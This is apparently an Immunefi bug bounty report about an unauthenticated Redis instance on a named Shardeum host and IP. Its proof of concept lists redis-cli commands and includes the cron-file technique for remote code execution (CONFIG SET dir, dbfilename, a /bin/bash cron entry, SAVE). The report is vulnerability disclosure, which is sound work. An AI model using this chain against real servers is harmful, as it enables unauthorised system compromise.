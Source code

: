 
# Exposed Redis Service Vulnerability on api.shardeum.org:6380

Submitted on Mon Jul 22 2024 09:20:08 GMT-0400 (Atlantic Standard Time) by @Xanzz for [Boost | Shardeum: Ancillaries](https://immunefi.com/bounty/shardeum-ancillaries-boost/)

Report ID: #33522

Report type: Websites and Applications

Report severity: Insight

Target: api.shardeum.org:6380

Impacts:
- Taking down the application/website
- Retrieve sensitive data/files from a running server, such as: /etc/shadow, database passwords, blockchain keys (this does not include non-sensitive environment variables, open source code, or usernames)
- Execute arbitrary system commands
- Taking state-modifying authenticated actions (with or without blockchain state interaction) on behalf of other users without any interaction by that user, such as: Changing registration information, Commenting, Voting, Making trades, Withdrawals, etc.

## Description
## Brief/Intro
An exposed Redis service has been discovered on api.shardeum.org:6380, running without proper authentication or protection. If exploited, this vulnerability could allow attackers to execute arbitrary commands, retrieve sensitive data, and potentially disrupt services.

## Vulnerability Details
The Redis service at api.shardeum.org:6380 is accessible without authentication, as evidenced by the ability to connect and execute commands without any password prompt. The configuration shows "protected-mode" set to "no", indicating that the Redis instance is not in protected mode and is accessible from external sources. This exposes the server to various potential attacks, such as data extraction, arbitrary command execution, and configuration changes.

Example of connecting to the Redis server:
```bash
redis-cli -h 143.244.129.75 -p 6380
```

Checking the server's INFO:
```plaintext
143.244.129.75:6380> INFO
# Server
redis_version:7.2.4
...
```

Checking the server's configuration:
```plaintext
143.244.129.75:6380> CONFIG GET protected-mode
1) "protected-mode"
2) "no"
```

## Impact Details
The exposed Redis service can lead to several severe consequences:
- Execute arbitrary system commands: An attacker can use the Redis service to execute arbitrary commands, leading to full system compromise.
- Retrieve sensitive data/files: Critical data such as database passwords, sensitive configuration files, and other confidential information can be retrieved.
- Service disruption: Malicious actors can manipulate the Redis configuration or data, potentially causing downtime and service disruption.
- Data manipulation: Attackers can modify or delete stored data, impacting the integrity and availability of the services relying on Redis.

These impacts align with the program’s in-scope impacts, highlighting the significant risk posed by this vulnerability.

## References
- [Redis Security Documentation](https://redis.io/topics/security)
- [Common Redis Exploits and Security Practices](https://www.digitalocean.com/community/tutorials/how-to-secure-your-redis-installation-on-ubuntu-16-04)
        
## Proof of concept
### Proof of Concept (PoC)

This Proof of Concept demonstrates the vulnerability of the exposed Redis service on `api.shardeum.org:6380`, showing how an attacker can connect to the Redis server and execute commands without authentication.

#### Step 1: Identify the IP Address of the Target

Use the `dig` command to find the IP address associated with `api.shardeum.org`:

```bash
dig +short api.shardeum.org
```

Output:

```plaintext
143.244.129.75
```

#### Step 2: Connect to the Redis Server

Use the `redis-cli` to connect to the exposed Redis server at the identified IP address:

```bash
redis-cli -h 143.244.129.75 -p 6380
```

#### Step 3: Check Redis Server Information

Once connected, check the server information to confirm the connection and gather details about the server:

```plaintext
143.244.129.75:6380> INFO
# Server
redis_version:7.2.4
...
```

#### Step 4: Verify Protected Mode

Check the Redis configuration to verify that the server is not in protected mode:

```plaintext
143.244.129.75:6380> CONFIG GET protected-mode
1) "protected-mode"
2) "no"
```

#### Step 5: Execute a Command

For demonstration purposes, try setting a key in the Redis database:

```plaintext
143.244.129.75:6380> SET testkey "This is a test."
OK
```

Verify that the key has been set:

```plaintext
143.244.129.75:6380> GET testkey
"This is a test."
```

#### Step 6: Retrieve Sensitive Information

Attempt to retrieve sensitive configuration details or other data stored in Redis:

```plaintext
143.244.129.75:6380> CONFIG GET dir
1) "dir"
2) "/data"
```

This command retrieves the directory path where Redis stores its data.

#### Step 7: Exploit the Vulnerability

An attacker can potentially use the exposed Redis instance to execute arbitrary system commands. For example, by writing to the Redis configuration file and restarting the server, the attacker could achieve remote code execution:

```plaintext
143.244.129.75:6380> CONFIG SET dir /var/spool/cron/crontabs
OK
143.244.129.75:6380> CONFIG SET dbfilename root
OK
143.244.129.75:6380> SET root "\n* * * * * /bin/bash -c 'echo vulnerable > /tmp/vulnerable.txt'\n"
OK
143.244.129.75:6380> SAVE
OK
```

In this example, a cron job is created to demonstrate the execution of arbitrary commands. The job writes the text "vulnerable" to a file in the `/tmp` directory every minute. Note that this is a potentially destructive action and should be conducted only in a controlled environment.

### Conclusion

This PoC illustrates the potential risks associated with the exposed Redis service. An attacker can connect to the Redis server without authentication, retrieve sensitive information, and execute arbitrary commands, leading to severe security implications. Proper security measures, such as enabling protected mode and requiring authentication, should be implemented to mitigate these risks.